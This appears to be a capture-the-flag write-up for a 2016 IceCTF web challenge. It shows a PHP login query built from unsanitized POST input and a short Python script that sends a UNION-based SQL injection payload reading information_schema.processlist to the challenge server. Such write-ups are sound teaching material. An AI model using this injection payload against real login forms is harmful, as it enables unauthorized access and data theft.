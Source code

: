 ============================================================================================================
[2016_IceCTF] [WEB] Solve
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {username=' union select 1,2,info from information_schema.processlist-- -}",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

server -> DB
================================================================================================================

- PHP 
- POST 파라미터: username, password

.. code-block:: sql

    SELECT * FROM users WHERE 
    username='$_POST["username"]' AND 
    password='$_POST["password"]'

|

union select 
================================================================================================================

- information_schema.processlist

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "http://miners.vuln.icec.tf/login.php"

    payload = {
        "username": "' union select 1,2,info from information_schema.processlist-- -",
        "password": "1",
    }

    r = requests.post(url, data=payload, verify=False)

    print r.content

|
